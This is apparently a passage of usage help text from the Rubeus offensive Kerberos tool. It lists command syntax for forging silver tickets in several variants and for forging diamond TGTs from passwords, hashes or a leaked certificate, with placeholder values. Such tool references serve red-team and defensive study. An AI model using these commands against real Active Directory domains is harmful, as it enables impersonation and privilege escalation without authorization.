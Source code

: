         Forge a silver ticket using LDAP to gather the relevent information, using the KRBTGT key to calculate the KDCChecksum and TicketChecksum:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap </krbkey:HASH> [/krbenctype:DES|RC4|AES128|AES256] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information but explicitly overriding some values:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/dc:DOMAIN_CONTROLLER] [/domain:DOMAIN] [/netbios:NETBIOS_DOMAIN] [/sid:DOMAIN_SID] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/authdata] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information and including an S4U Delegation Info PAC section:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/s4uproxytarget:TARGETSPN] [/s4utransitedservices:SPN1,SPN2,...] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket using LDAP to gather the relevent information and setting a different cname and crealm:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> /ldap [/cname:CLIENTNAME] [/crealm:CLIENTDOMAIN] [/printcmd] [outfile:FILENAME] [/ptt]

        Forge a silver ticket, setting values explicitly:
            Rubeus.exe silver </des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> </user:USERNAME> </service:SPN> </domain:DOMAIN> </sid:DOMAIN_SID> [/dc:DOMAIN_CONTROLLER] [/netbios:NETBIOS_DOMAIN] [/dispalyname:PAC_FULL_NAME] [/badpwdcount:INTEGER] [/flags:TICKET_FLAGS] [/uac:UAC_FLAGS] [/groups:GROUP_IDS] [/pgid:PRIMARY_GID] [/homedir:HOMEDIR] [/homedrive:HOMEDRIVE] [/id:USER_ID] [/logofftime:LOGOFF_TIMESTAMP] [/lastlogon:LOGON_TIMESTAMP] [/logoncount:INTEGER] [/passlastset:PASSWORD_CHANGE_TIMESTAMP] [/maxpassage:RELATIVE_TO_PASSLASTSET] [/minpassage:RELATIVE_TO_PASSLASTSET] [/profilepath:PROFILE_PATH] [/scriptpath:LOGON_SCRIPT_PATH] [/sids:EXTRA_SIDS] [[/resourcegroupsid:RESOURCEGROUPS_SID] [/resourcegroups:GROUP_IDS]] [/authtime:AUTH_TIMESTAMP] [/starttime:Start_TIMESTAMP] [/endtime:RELATIVE_TO_STARTTIME] [/renewtill:RELATIVE_TO_STARTTIME] [/rangeend:RELATIVE_TO_STARTTIME] [/rangeinterval:RELATIVE_INTERVAL] [/authdata] [/cname:CLIENTNAME] [/crealm:CLIENTDOMAIN] [/s4uproxytarget:TARGETSPN] [/s4utransitedservices:SPN1,SPN2,...] [/extendedupndns] [/nofullpacsig] [/printcmd] [outfile:FILENAME] [/ptt]

		Forge a diamond TGT by requesting a TGT based on a user password/hash:
			Rubeus.exe diamond /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/createnetonly:C:\Windows\System32\cmd.exe] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]
    
		Forge a diamond TGT by requesting a TGT using a PCKS12 certificate:
			Rubeus.exe diamond /user:USER /certificate:C:\temp\leaked.pfx </password:STOREPASSWORD> [/createnetonly:C:\Windows\System32\cmd.exe] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/krbkey:HASH] [/ticketuser:USERNAME] [/ticketuserid:USER_ID] [/groups:GROUP_IDS] [/sids:EXTRA_SIDS]
    